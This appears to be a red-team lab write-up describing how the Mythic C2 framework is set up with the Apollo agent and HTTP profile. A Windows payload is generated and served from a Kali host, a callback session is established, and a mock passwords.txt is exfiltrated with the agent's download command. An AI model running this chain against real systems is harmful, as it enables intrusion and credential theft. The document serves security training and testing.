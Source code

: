 # Mythic C2 Framework Demonstration

## Installing Apollo Agent

1. Install Apollo agent via Mythic's command-line interface (CLI):

```bash
sudo ./mythic-cli install agent from https://github.com/MythicAgents/Apollo
```

2. Once installed, the Apollo agent appeared in the Mythic web GUI, ready for configuration.

## Configuring HTTP C2 Profile

Next, I configured the HTTP C2 profile for communication between the attacker (C2 server) and the target (Windows Server). This involved setting up a communication channel that could handle traffic over HTTP.

1. Install the HTTP C2 profile from the Mythic GitHub repository:

```bash
sudo ./mythic-cli install c2_profile from https://github.com/MythicC2Profiles/http
```

2. In the Mythic web GUI, I set the C2 profile's callback host to my public IP and selected port 80 for communication.

## Creating and Deploying the Payload

With the agent and C2 profile in place, I moved forward with creating the payload. This payload was designed for Windows and configured to use the HTTP C2 profile for communication.

1. Generate the payload in the Mythic web GUI:
   - Choose the Apollo agent.
   - Configure the payload to target a Windows executable format.
   - Set the callback communication to use the HTTP profile with my Kali Linux server as the host.
   - Include necessary commands for post-exploitation.

2. Host the payload on Kali Linux using a Python HTTP server:

```bash
python3 -m http.server 9999
```

This allowed the Windows target machine to download the payload from my Kali machine, simulating a real-world payload delivery scenario.

## Execution and Establishing C2

After the payload was downloaded and executed on the Windows Server, I confirmed that the C2 session was established through the Mythic web interface. The Apollo agent successfully called back to the C2 server, and the session was live.

Check active connections on the Windows target using:

```bash
netstat -anob
```

The process associated with the Apollo agent was visible, confirming the successful establishment of the C2 session.

## Post-Exploitation: File Exfiltration

As part of the post-exploitation phase, I demonstrated the retrieval of sensitive information from the target system. I created a mock password file on the Windows Server named `passwords.txt` and stored it in the Administrator's Documents folder.

1. Password file setup: Before launching the attack, I created a text file with mock credentials on the target system:

```
C:/Users/Administrator/Documents/passwords.txt
```

2. Retrieve the file using the Apollo agent's download command:

```bash
download C:/Users/Administrator/Documents/passwords.txt
```

3. The contents of the file (Winter2024!) were successfully exfiltrated and displayed in the Mythic interface.

## Conclusion

This demonstration highlights the flexibility of the Mythic C2 framework in establishing a C2 session and performing post-exploitation tasks, including file exfiltration. By leveraging the Apollo agent and the HTTP C2 profile, I was able to simulate a realistic attack scenario, showing the practical use of Mythic in red teaming exercises.

It's important to note that this demonstration was conducted in a controlled environment with Kali Linux and a test Windows Server. These techniques should only be used for ethical hacking purposes with explicit permission. Unauthorized use of these tools is illegal.
